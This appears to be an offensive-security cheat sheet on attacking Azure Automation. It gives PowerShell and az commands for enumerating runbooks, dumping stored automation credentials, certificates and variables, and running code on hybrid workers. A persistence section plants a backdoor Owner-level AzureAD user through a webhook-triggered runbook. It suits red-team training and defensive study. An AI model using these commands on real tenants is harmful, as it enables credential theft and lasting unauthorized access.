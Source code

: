 # Azure Services - Runbook and Automation

## Runbook

Runbook must be **SAVED** and **PUBLISHED** before running it.

### List the Runbooks

```ps1
Get-AzAutomationAccount | Get-AzAutomationRunbook
```

### Create a Runbook

* Check user right for automation

    ```powershell
    az extension add --upgrade -n automation
    az automation account list # if it doesn't return anything the user is not a part of an Automation group
    az ad signed-in-user list-owned-objects
    ```

* Add the user to the "Automation" group: `Add-AzureADGroupMember -ObjectId <OBJID> -RefObjectId <REFOBJID> -Verbose`
* Get the role of a user on the Automation account: `Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>`. NOTE: Contributor or higher privileges accounts can create and execute Runbooks
* List hybrid workers: `Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>`
* Create a Powershell Runbook: `Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose`
* Publish the Runbook: `Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose`
* Start the Runbook: `Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose`

## Automation Account

### List Automation Accounts

Azure Automation provides a way to automate the repetitive tasks you perform in your Azure environment.

```ps1
Get-AzAutomationAccount
```

### Get Automation Credentials

```ps1
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationVariable
```

### Persistence via Automation Accounts

* Create a new Automation Account
    * "Create Azure Run As account": Yes
* Import a new runbook that creates an AzureAD user with Owner permissions for the subscription*
    * Sample runbook [NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)
    * Publish the runbook
    * Add a webhook to the runbook
* Add the AzureAD module to the Automation account
    * Update the Azure Automation Modules
* Assign "User Administrator" and "Subscription Owner" rights to the automation account
* Trigger the webhook with a post request to create the new user

    ```powershell
    $uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
    $AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
    $body = ConvertTo-Json -InputObject $AccountInfo
    $response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
    ```

## Desired State Configuration

### List the DSC

```ps1
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
```

### Export the configuration

```ps1
$DSCName = ${dscToExport}
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -march $DSCName} | Export-AzAutomationDscConfiguration -OutputFolder (get-location) -Debug
```

## References

* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)
